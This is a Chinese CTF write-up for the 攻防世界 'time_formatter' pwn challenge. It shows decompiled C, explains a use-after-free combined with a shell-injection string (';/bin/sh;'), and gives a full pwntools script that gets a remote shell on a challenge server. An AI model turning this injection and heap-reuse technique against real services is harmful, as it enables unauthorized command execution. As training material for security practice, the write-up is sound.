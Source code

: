 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。</br>
![time_formatter1](./pic/gfsj/time_formatter1.png)</br>
试试这个shell注入`';/bin/sh;'`</br>
![time_formatter2](./pic/gfsj/time_formatter2.png)</br>
可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。</br>
![time_formatter3](./pic/gfsj/time_formatter3.png)</br>
不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。</br>
![time_formatter4](./pic/gfsj/time_formatter4.png)</br>
那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。</br>
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
